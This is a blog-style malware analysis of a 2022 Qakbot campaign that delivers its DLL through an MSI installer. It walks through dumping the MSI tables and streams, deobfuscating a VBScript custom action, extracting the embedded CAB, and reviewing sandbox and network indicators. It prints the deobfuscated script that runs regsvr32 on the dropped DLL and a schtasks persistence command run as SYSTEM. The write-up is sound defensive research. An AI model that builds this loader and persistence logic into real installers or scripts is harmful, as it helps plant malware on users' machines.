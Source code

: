 ```yaml
---
title: "QakbotMSI"
date: 2022-06-21T17:54:34-04:00
draft: false
---
```


### Executive Summary

- In mid-April 2022, Mandiant observed UNC2500 campaigns using MSI packages to distribute Qakbot payloads.
- This change comes shortly after Microsoft’s announcement that macros from Office documents downloaded from the internet (ZoneIdentifier ADS) will be blocked by default.
- This new payload uses a botnet ID **AA,** which is unique from previous campaigns that have used **tr**, **cullinan**, and **cullinan01**.
- Distribution came from phishing emails containing a malicious link from either OneDrive or files hosted on compromised websites that downloads a ZIP archive. That archive contains a Windows Installer Package (MSI) file. When the user executes the MSI file, a Qakbot DLL contained within an embedded Windows Cabinet File (CAB)  is executed.

### Analysis

This sample was originally published by @pr0xylife. 

I downloaded the MSI sample on both Remnux and FlareVM for static and dynamic analysis respectively. 

[https://twitter.com/pr0xylife/status/1521445754216267776](https://twitter.com/pr0xylife/status/1521445754216267776)

First is to just look at the file properties to see if there are any immediate indicators. An organization and an email. 

![Untitled](/Qakbot/Untitled.png)

`msidump` will dump all streams and tables from the MSI file. `oledump` can also be used and I’ll show an example of that too, but I found `msidump` just makes things a bit easier.

### Streams and Tables

Every .idt file below is a table. More specifically, an Installer Database Table. Using the `-s` and `-t` flag, **_Tables** and **_Streams** are outputted below. 

**_Tables** table lists all tables (.idt files) in the database. 

**_Streams** table lists embedded OLE data streams. It is a temporary table created only when referenced by a SQL statement. 

**Binary** folder is used to store data from `Binary.idt`. The binary table holds binary data for items like bitmaps, animations, and icons. It’s also used to store data for **custom actions** (more on this later)**.** 

### msidump

![Untitled](/Qakbot/Untitled%201.png)

![Untitled](/Qakbot/Untitled%202.png)

- `*.idt` are database files containing table data.
- `Binary/` and `_Streams/` hold executable and stream data.

### Oledump Example

`msidump` above gave a lot of useful information quickly, but as stated, MSI files contain OLE stream data, so `oledump` could be used as well.

Most of the text below is unreadable (for those that aren’t bilingual) but what’s more important is the middle column signifying stream byte size. 

![Untitled](/Qakbot/Untitled%203.png)

Going for the largest stream first seems profitable, so I’ll start with 4. 

![Untitled](/Qakbot/Untitled%204.png)

Ignore the broken pipe error. Main thing to focus on is the `MSCF` file signature which is a **Microsoft Cabinet Archive File.** Keep note of this.

Next is stream 5, but I won’t go further since the rest of the analysis was done using `msidump`. 

![Untitled](/Qakbot/Untitled%205.png)

The `BM` file signature is for bitmap images. Possibly for something in the MSI application window? 

Anyways, that was just an example of using `oledump.py`. It’s a bit more tedious to get table data, but it’s still possible. I’d just rather have all files readily available to look at. Back to the real task.

### More Tables

The **CustomAction** file can often contain malicious code for further execution, so that’s a good one to check first. 

![Untitled](/Qakbot/Untitled%206.png)

`DIRCA_TARGETDIR` notes something gets installed to the `%LOCALAPPDATA%\ProductName` folder. This at least gives a location to check on Windows machines for file creation. 

Note: [ProductName] is a placeholder for the actual package getting installed. As seen in the embedded tweet above, the package is called SetupTest, so something will evidently get installed to `%localappdata%\SetupTest`.  

That line above `DIRCA_TARGETDIR` points to a binary stream which may give more details about the action. 

Listing the stream data gives some obfuscated output.

![Untitled](/Qakbot/Untitled%207.png)

But thanks to this [tweet](https://twitter.com/ankit_anubhav/status/1521473716332339200?s=20&t=Bgp9wbsMNh2-k3FyXotADQ), a few find/replace operations in CyberChef can clear up the output a bit. Luckily this stream was lightly obfuscated. 

![Untitled](/Qakbot/Untitled%208.png)

Cleaned up output. Looking at line 4, now we know the name of the directory and a specific file written to it. This eases the dynamic analysis a bit on the Windows machine. 

```jsx
EVUCQUJ8D4 = EVUCQUJ8D4 & "VZUMLKCQLE = VZUMLKCQLE & ""Set objShell = CreateObject( """"WScript.Shell"""" )"" & Vbcrlf" & Vbcrlf
EVUCQUJ8D4 = EVUCQUJ8D4 & "VZUMLKCQLE = VZUMLKCQLE & ""Dim reg"" & Vbcrlf" & Vbcrlf
EVUCQUJ8D4 = EVUCQUJ8D4 & "VZUMLKCQLE = VZUMLKCQLE & ""reg = """"regsvr32.exe """""" & Vbcrlf" & Vbcrlf
EVUCQUJ8D4 = EVUCQUJ8D4 & "VZUMLKCQLE = VZUMLKCQLE & ""objShell.run reg & objShell.ExpandEnvironmentStrings(""""%localappdata%"""" & """"\SetupTest\"""" & """"5.dll"""")"" & Vbcrlf" & Vbcrlf
EVUCQUJ8D4 = EVUCQUJ8D4 & "VZUMLKCQLE = Replace(VZUMLKCQLE, """", """")" & Vbcrlf
EVUCQUJ8D4 = EVUCQUJ8D4 & "Execute VZUMLKCQLE" & Vbcrlf
EVUCQUJ8D4 = Replace(EVUCQUJ8D4, "", "")
```

Next is the Property table. 

![Untitled](/Qakbot/Untitled%209.png)

Nothing...time to switch to `_Streams`. Sometimes the Manufacturer key can list interesting details, but not this time.

![Untitled](/Qakbot/Untitled%2010.png)

A **Microsoft Archive Cabinet File**? Where was that seen before? (hint: oledump)

Since it’s an archive file, time to use 7z to extract it.

![Untitled](/Qakbot/Untitled%2011.png)

Finally getting somewhere. A new file (`_699ADF8C0A7E43ED9D8607CA4CFAFB26`) was extracted and it is a PE32 executable DLL. This further proves the output from that obfuscated code in CyberChef. 

After grabbing the MD5 of the DLL, it appears on MalwareBazaar.

![Untitled](/Qakbot/Untitled%2012.png)

Remember above how the CustomAction.idt file showed a target directory. Well...

![Untitled](/Qakbot/Untitled%2013.png)

There’s the same .dll pulled from the `_Streams` directory. `SetupTest` is the ProductName within `LocalAppDataFolder\ProductName`. 

The sample is heavily packed with an entropy of 7.69 so I’ll view sandbox details instead. The sample on intezer was downloaded to `%localappdata%\Temp` instead of `%localappdata%\SetupTest` but besides that, everything else is the same. 

[](https://analyze.intezer.com/analyses/42429a7f-36f2-4977-909b-ba67d0398810/genetic-analysis)

```jsx
"C:\Windows\System32\rundll32.exe" "C:\Users\<USER>\AppData\Local\Temp\<ANALYZED-FILE-NAME>",#1
	C:\Windows\SysWOW64\explorer.exe
		"C:\Windows\system32\schtasks.exe" /Create /RU "NT AUTHORITY\SYSTEM" /tn okebdbmlat /tr "regsvr32.exe -s \"C:\Users\<USER>\AppData\Local\Temp\<ANALYZED-FILE-NAME>\"" /SC ONCE /Z /ST 19:48 /ET 20:00
			C:\Windows\system32\svchost.exe -k netsvcs
```

### Network Activity

Using FakeNetNG, I was able to capture some IPs albeit with different host IDs but sharing the same ASN. So new IOCs!

24.55.67[.]41
82.152.39[.]49
92.132.172[.]110
186.64.67[.]30
203.122.46[.]188

### Conclusion

This Qakbot sample shows threat actors are moving fast to find new infection vectors that aren’t Office macros given the recent crackdown from Microsoft. I showed a few ways to pull details from an MSI file and luckily even got some new IOCs. Qakbot isn’t the first to adapt to this though. Prior MSI files include:

- [Arkei](https://malpedia.caad.fkie.fraunhofer.de/details/win.arkei_stealer)
- [NjRAT](https://malpedia.caad.fkie.fraunhofer.de/details/win.njrat)
- [STRRAT](https://malpedia.caad.fkie.fraunhofer.de/details/jar.strrat)

---

### IOCs

[Qakbot/Qakbot_AA_03.05.2022.txt at main · pr0xylife/Qakbot](https://github.com/pr0xylife/Qakbot/blob/main/Qakbot_AA_03.05.2022.txt)

### References

[MalwareBazaar | Browse malware samples](https://bazaar.abuse.ch/sample/8cc8f32b2f44e84325e5153ec4fd60c31a35884220e7c36b753550356d6a25c8/)

[MalwareBazaar | Browse malware samples](https://bazaar.abuse.ch/sample/0150eb84d16f0330b2952c9c722fbf55e47d9697b27de9335de6113556e9b317/)

[Filesec.io](https://filesec.io/msi)

[Filesec.io](https://filesec.io/cab)

[Database Tables - Win32 apps](https://docs.microsoft.com/en-us/windows/win32/msi/database-tables)

[Analyzing a Stealer MSI using msitools](https://forensicitguy.github.io/analyzing-stealer-msi-using-msitools/)